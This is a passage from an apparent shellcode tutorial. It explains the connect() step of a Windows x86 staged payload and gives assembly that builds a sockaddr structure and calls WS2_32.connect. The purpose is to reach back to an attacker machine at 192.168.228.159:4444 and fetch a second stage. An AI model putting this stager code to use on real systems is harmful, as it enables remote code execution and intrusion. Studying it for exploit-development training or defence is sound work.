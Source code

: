 ```
```

### connect

Now Winsock has been initialized and the above code has stored the socket descriptor in EDI. It is time to connect the socket. The `connect()` function will be used to connect back to the attacking machine and fetch the second stage, but `bind()` and `listen()` could also be used here to bind a port to listen for incoming shellcode. However, that requires twice as many instructions compared to just calling connect and it’s less convenient. The bound port might also be firewalled off, so connect is the preferred option.

The `connect` function is a simple one. This function needs the socket descriptor, a socket address structure (IP address and port number), and a `namelen` argument (the size of the socket address structure).

```c
int connect(
 _In_ SOCKET s,
 _In_ const struct sockaddr *name,
 _In_ int namelen
);
```

This sounds more complicated than it is. The `sockaddr` structure is an IP address and port number. The IP address is pushed to the stack as the hex representation of four individual numbers. They are pushed in reverse order for Little Endian like a memory address would be. If using an online decimal convertor, add a space between each IP octet.

Example: 192.168.228.159 => 159 228 168 192 => 9F E4 A8 C0

Then there is the port. The following example will use port 4444, pushed as 5C11 (115C is 4444 in hex). The one tricky thing seen below is the sin_family. A 2 is added to the end (0x5C110000 becomes 0x5C110002) to represent the AF_INET family. The number code for AF_INET, 2, is consistent with WSASocketA as seen above.

The `namelen` argument is 0x10.

It looks like this in Assembly:

```
; Initiate a connection with connect()

PUSH 0x9FE4A8C0    ; Push IP address -- 192.168.228.159
PUSH WORD 0x5C11   ; 0x115C = port 4444
XOR EBX,EBX        ; Zero EAX
ADD BL,2           ; Add 2 to BL for sin_family, 0x511c0002
PUSH WORD BX       ; Push sin_port and sin_family to stack 
MOV EDX,ESP        ; Move pointer for sin_port and sin_family into EDX
PUSH BYTE 16       ; Push the namelen argument as 0x10
PUSH EDX           ; Push the the pointer to the sockaddr structure
PUSH EDI           ; Push the socket descriptor

MOV EBX,0x71AB4A07 ; MOV EAX,WS2_32.connect
CALL EBX           ; CALL connect
```

